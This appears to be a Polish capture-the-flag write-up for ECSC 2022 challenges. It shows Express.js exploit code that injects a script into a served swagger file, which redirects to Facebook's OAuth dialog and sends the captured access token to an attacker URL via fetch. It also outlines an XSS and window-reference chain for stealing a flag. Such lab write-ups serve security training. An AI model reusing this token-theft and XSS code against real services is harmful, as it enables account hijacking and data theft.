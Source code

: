 Trzeba ją wykorzystać do redirectu na oauth2 facebooka i przechwycenia tokenu

```js
baseURL = ''; // np. ngrok/webhook.site
clientID = '1269703586711557';

app.get('/swagger.yml', (req, res) => {
    let f = fs.readFileSync(__dirname+'/static/swagger.yml').toString();

    const payload = `

    window.swaggerUIRedirectOauth2 = {
        callback(msg) { fetch('${baseURL}/log?msg=' + encodeURIComponent(msg.token.access_token)) },
        state: '123',
        auth: {
            schema: {
                get() {return'authorizationCode'},
                redirectUrl: '',
            },
            code: 'test',
        }
    };

    window.open('https://www.facebook.com/v14.0/dialog/oauth?response_type=token&client_id=${clientID}&state=123&scope=user_photos%20public_profile&redirect_uri=https%3A%2F%2Fszwagier.ecsc22.hack.cert.pl%2Fstatic%2Fswagger%2Foauth2-redirect.html')`;

    f = f.replace('{{PAYLOAD}}', payload.replace(/[\s\t\n]/g, ''));
    res.send(f);
});
```

## Monster

Sekrety mają podatność XSS

Rozwiązanie: 
1. Bot otwiera stronę atakującego `/`
2. Strona `/` otwiera `secret.monster.ecsc22.hack.cert.pl/secret` używając `window.open(..., 'secret')` - tam jest flaga
3. Strona otwiera ścieżkę, `/2` która loguje się na konto atakującego
4. Strona `/` przechodzi na `secret.monster.ecsc22.hack.cert.pl/secret`, gdzie odpala się XSS atakującego
5. XSS bierze referencję do wcześniej otwartej strony z flagą używając `w = window.open('', 'secret');` i może bez problemów przesłać flagę do atakującego

index.js:
```python
import express from 'express';
import fetch from 'node-fetch';
import * as fs from 'fs';
import cors from 'cors';

const app = express();

app.use(cors({
    origin: '*',
}));


app.use(express.static('static'));

app.use((req, res, next) => {
    console.log(req.method, req.path);
```